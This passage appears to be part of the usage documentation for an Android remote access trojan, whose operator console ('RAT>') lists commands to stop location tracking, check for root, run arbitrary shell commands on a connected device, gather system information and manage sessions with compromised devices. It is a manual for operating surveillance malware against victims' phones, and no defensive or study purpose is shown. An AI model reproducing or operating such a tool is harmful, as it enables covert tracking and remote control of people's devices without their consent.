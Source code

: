 #### `location_stop`
Stop location tracking.
```
Session[1]> location_stop
Response: Tracking stop status
```

### Shell Commands

#### `shell_check`
Check shell access and capabilities.
```
Session[1]> shell_check
Response: Shell availability, root access, test results
```

#### `shell_exec <command>`
Execute shell command.
```
Session[1]> shell_exec whoami
Session[1]> shell_exec ls -la /sdcard
Session[1]> shell_exec ps aux
Response: Command output, exit code, execution time
```

#### `shell_system_info`
Get comprehensive system information.
```
Session[1]> shell_system_info
Response: Kernel, uptime, memory, CPU, disk, processes, network
```

#### `shell_interactive <command:input>`
Execute interactive command with input.
```
Session[1]> shell_interactive cat:Hello World
Response: Interactive command output
```

## Session Management

### Connecting to Sessions
```bash
# List active sessions
RAT> sessions

# Connect to specific session
RAT> session 1
Session[1]> 

# Return to main prompt
Session[1]> back
RAT>

# Exit server
RAT> exit
```
